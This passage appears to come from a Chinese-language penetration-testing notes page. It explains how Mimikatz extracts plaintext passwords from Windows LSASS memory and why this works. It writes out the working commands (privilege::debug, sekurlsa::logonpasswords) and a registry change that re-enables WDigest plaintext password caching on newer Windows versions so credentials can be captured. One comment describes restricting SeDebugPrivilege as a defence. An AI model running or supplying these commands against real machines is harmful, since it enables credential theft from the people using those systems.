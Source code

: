 由于是要操纵系统内存的，所以需要Debug权限

```bash
privilege::debug

# Mimikatz 需要此权限，因为它要与 LSASS 进程交互。因此，将此权限仅设置为需要这权限的特定用户或组，并将其从本地管理员中删除是非常重要。可以通过将策略定义为不包含任何用户或组来禁用 SeDebugPrivilege。
# Group Policy Management Editor -> Windows Settings -> Security Settings -> Local Policies -> User Rights Assignment -> Debug programs -> Define these policy settings:
```

2.抓取

```
sekurlsa::logonPasswords
```

如果报错，可能是注册表问题，尝试在cmd中输入如下命令（管理员模式）

```
reg add hklm\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential 
```



**原理：**

当用户登陆后,会把账号密码保存在 Isass中，Isass是微软 Windows系统的安全机制它主要用于本地安全和登陆策略，通常我们在登陆系统时输入密码之后，密码便会储存在lsass内存中，经过其 Wdigest和 tspg两个模块调用后，对其使用可逆的算法进行加密并存储在内存之中，而mimikatz正是通过对lsass的逆算获取到明文密码



> 注：但是在安装了KB2871997补丁或者系统版本大于windows server 2012时，系统的内存中就不再保存明文的密码，这样利用mimikatz就不能从内存中读出明文密码了。
>
> mimikatz的使用需要administrator用户执行，administrators中的其他用户都不行。







### 获取系统HASH

#### **本地执行：**

```bash
#提升权限
privilege::debug

#抓取密码
sekurlsa::logonpasswords
```

当目标为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，但可以通过修改注册表的方式抓取明文。如下：

cmd修改注册表命令：

```dockerfile
Copyreg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
#重启或用户重新登录后可以成功抓取
```
